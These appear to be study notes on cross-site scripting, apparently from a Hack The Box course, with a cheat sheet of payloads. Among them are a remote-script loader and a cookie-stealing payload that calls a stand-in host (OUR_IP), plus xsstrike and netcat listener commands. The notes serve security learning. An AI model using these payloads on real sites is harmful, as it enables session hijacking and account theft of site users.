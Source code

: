 # Cross Site Scripting (XSS) Notes

Execution of JavaScript code in an input field. Inherently a client focused vulnerability and can be equated to a medium risk.

|Type| 	Description|
|:----|:----|
|Stored (Persistent) XSS 	|The most critical type of XSS, which occurs when user input is stored on the back-end database and then displayed upon retrieval (e.g., posts or comments)|
|Reflected (Non-Persistent) XSS 	|Occurs when user input is displayed on the page after being processed by the backend server, but without being stored (e.g., search result or error message)|
|DOM-based XSS 	|Another Non-Persistent XSS type that occurs when user input is directly shown in the browser and is completely processed on the client-side, without reaching the back-end server (e.g., through client-side HTTP parameters or anchor tags)|

## Cheat Sheet

|Code 	|Description|
|:----|:----|
|XSS| Payloads 	|
|<script>alert(window.origin)</script> 	|Basic XSS Payload|
|<plaintext> |	Basic XSS Payload|
|<script>print()</script> |	Basic XSS Payload|
|<img src="" onerror=alert(window.origin)> 	|HTML-based XSS Payload|
|<script>document.body.style.background = "#141d2b"</script> 	|Change Background Color|
|<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script> |	Change Background Image|
|<script>document.title = 'HackTheBox Academy'</script> 	|Change Website Title|
|<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script> 	|Overwrite website's main body|
|<script>document.getElementById('urlform').remove();</script> 	|Remove certain HTML element|
|<script src="http://OUR_IP/script.js"></script>| 	Load remote script|
|<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script> 	|Send Cookie details to us
Commands 	|
|python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test" 	|Run xsstrike on a url parameter|
|sudo nc -lvnp 80 	|Start netcat listener|
|sudo php -S 0.0.0.0:80 	|Start PHP server|
